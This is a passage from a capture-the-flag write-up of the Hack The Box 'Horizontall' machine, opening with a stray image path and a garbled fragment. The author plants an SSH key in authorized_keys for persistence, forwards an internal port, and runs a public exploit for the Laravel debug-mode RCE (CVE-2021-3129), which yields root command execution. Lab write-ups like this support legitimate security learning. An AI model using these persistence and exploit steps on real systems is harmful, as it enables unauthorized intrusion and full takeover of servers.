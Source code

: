 prot 8000 for for what !!!!

- lest connect via ssh and do port forwarding

## ssh & port forwarding

```bash
strapi@horizontall:~$ mkdir .ssh
strapi@horizontall:~$ cd .ssh/
strapi@horizontall:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuyT############################################################= root@H3X0S3" >> authorized_keys 
```

from our terminal

```bash

┌──(root💀H3X0S3)-[/home/…/Desktop/Labs/HTB/Horizontall]
└─# ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Feb  5 15:35:26 UTC 2022

  System load:  0.08              Processes:           196
  Usage of /:   82.5% of 4.85GB   Users logged in:     0
  Memory usage: 47%               IP address for eth0: 10.10.11.105
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Fri Jun  4 11:29:42 2021 from 192.168.1.15
$ 
```

open web browser

![](https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/main/assets/img/hackthebox/Horizontall/8.png)


we have the version, go to search for any CVE, we find debug mode: Remote code execution (CVE-2021-3129)

**https://github.com/nth347/CVE-2021-3129_exploit**

```bash
┌──(root💀H3X0S3)-[/home/…/Desktop/Labs/HTB/Horizontall]
└─# python3 exploit2.py http://127.0.0.1:8000 Monolog/RCE1 "id"                
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```
read root flag
